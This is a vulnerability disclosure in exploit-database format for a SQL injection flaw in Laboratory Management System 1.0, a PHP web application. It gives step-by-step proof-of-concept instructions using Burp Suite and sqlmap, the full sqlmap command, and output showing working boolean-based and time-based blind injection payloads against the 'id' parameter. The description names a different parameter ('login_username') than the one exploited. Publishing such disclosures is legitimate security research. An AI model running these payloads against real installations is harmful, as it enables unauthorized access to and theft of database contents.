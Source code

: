 # Laboratory Management System - SQL Injection
+ **Exploit Title:** Laboratory Management System - SQL Injection
+ **Date:** 2024-27-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17268&title=Computer+Laboratory+Management+System+using+PHP+and+MySQL
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Laboratory Management System 1.0 allows SQL Injection via the 'login_username' parameter at "localhost/php-lms/admin/?page=borrow/view_borrow&id=1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/php-lms/admin/"
+ Select any recodrs then click view button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /php-lms/admin/?page=borrow/view_borrow&id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: page=borrow/view_borrow&id=1' AND 4852=(SELECT (CASE WHEN (4852=4852) THEN 4852 ELSE (SELECT 6337 UNION SELECT 3697) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=borrow/view_borrow&id=1' AND (SELECT 9348 FROM (SELECT(SLEEP(5)))TShs)-- ekqD
---
[09:26:47] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:26:47] [INFO] fetching current database
[09:26:47] [INFO] retrieving the length of query output
[09:26:47] [INFO] retrieved: 6
[09:26:48] [INFO] retrieved: lms_db           
current database: 'lms_db'
```
+ current database: `lms_db`

![Ekran görüntüsü 2024-03-27 162809](https://github.com/BurakSevben/CVEs/assets/117217689/eba62b4c-520d-4899-8893-97a813a5ebc2)
